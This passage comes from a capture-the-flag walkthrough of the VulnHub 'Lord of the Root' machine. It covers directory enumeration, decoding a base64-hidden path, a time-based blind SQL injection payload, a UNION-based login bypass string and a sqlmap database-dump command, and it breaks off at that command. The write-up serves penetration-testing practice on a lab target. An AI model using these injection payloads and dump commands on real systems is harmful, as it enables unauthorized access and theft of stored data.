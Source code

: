 ```
index.html              [Status: 200, Size: 64, Words: 3, Lines: 4]
:: Progress: [18460/18460] :: Job [1/1] :: 4242 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
- `404.html`
- `images`
- `index.html`
# Initial Foothold
## TCP/80 - HTTP - SQLi (Blind) Database Enumeration
1. View enumerated directories
	- `index.html`
		![](images/Pasted%20image%2020220125013623.png)
	- `404.html`
	![](images/Pasted%20image%2020220125014634.png)
		- Hidden Text
	- `images`
		![](images/Pasted%20image%2020220125013837.png)
2. Download all images & Analyze for hidden text/file
	- Could not find any
3. Decode hidden text
	```
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit]
	└─# echo -n THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh | base64 -d
	Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit]
	└─# echo -n THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh | base64 -d | base64 -d
	/978345210/index.phpbase64: invalid input
	```
	- `/978345210/index.php`
4. Proceed to `/978345210/index.php`
	![](images/Pasted%20image%2020220125015001.png)
5. Tried to bruteforce it, did not work
6. [Try SQLi Payloads](https://github.com/payloadbox/sql-injection-payload-list)
7. Try Time Based SQLi
	```
	'or sleep(5)#
	```
	- It worked
7. Try SQLi Auth Bypass payload
	```
	1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
	```
	![](images/Pasted%20image%2020220125023505.png)
	![](images/Pasted%20image%2020220125030816.png)
	- Successfully login, could not do anything w/ the login apge
	- Instead of Authentication Bypass, we have to enumerate the database
8. Run SQLMap
	```
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# sqlmap -r sqli.txt --dump --output-dir=$(pwd)/sqlmap -v 5
